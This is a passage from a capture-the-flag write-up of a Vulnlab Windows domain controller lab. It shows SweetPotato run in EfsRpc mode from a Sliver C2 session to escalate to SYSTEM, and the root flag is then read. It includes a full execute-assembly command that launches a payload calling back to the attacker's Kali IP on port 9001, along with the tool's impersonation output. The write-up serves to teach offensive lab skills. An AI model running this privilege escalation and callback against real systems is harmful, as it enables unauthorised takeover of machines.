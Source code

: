 ```
```

And the next that I'll show is using SweetPotato to exploit the same functionality.

```
sliver (breach) > execute-assembly SweetPotato.exe '-p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "C:\temp\dazzad.exe (KALI IP) 9001 cipher.bin key.bin" -e EfsRpc'

[*] Output:
SweetPotato by @_EthicalChaos_
  Orignal RottenPotato code and exploit by @foxglovesec
  Weaponized JuciyPotato by @decoder_it and @Guitro along with BITS WinRM discovery
  PrintSpoofer discovery and original exploit by @itm4n
  EfsRpc built on EfsPotato by @zcgonvh and PetitPotam by @topotam
[+] Attempting NP impersonation using method EfsRpc to launch C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[+] Triggering name pipe access on evil PIPE \\localhost/pipe/ad72050e-613c-4ae3-a1c0-1c8f6908f715/\ad72050e-613c-4ae3-a1c0-1c8f6908f715\ad72050e-613c-4ae3-a1c0-1c8f6908f715
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!

[*] Session 4123ca51 breach - 10.10.112.238:63856 (BREACHDC) - windows/amd64 - Sat, 29 Jun 2024 00:24:18 EDT
```

Note that I needed to specify the exploit mode to `EfsRpc` as the other exploit modes should fail due to an unsuccessful authentication interceptions. I've found this to really only work consistently with `EfsRpc`.

![](/images/vulnlab/breach-vl/f.png)

As seen from the above, both have spawned a session as SYSTEM. This means that we can simply use either session and access the root flag within the Administrator's Desktop directory.

```
sliver (breach) > use 4123ca51-3f10-4ee7-a5e5-7142245ad26a

[*] Active session breach (4123ca51-3f10-4ee7-a5e5-7142245ad26a)

sliver (breach) > cat "C:\Users\Administrator\Desktop\root.txt"

VL[...snip...]
```

Now that we have read the root flag, we have successfully compromised this machine!

# Conclusion

I came back to this machine after not initially knowing what I was doing the first time around. I had completed it, but I didn't really learn much from it. After about a few months of practicing red-teaming, I was more confident in what I was doing and put a lot of the resources that I had learned to the test. It seems that it paid off, which I'm satisfied with.
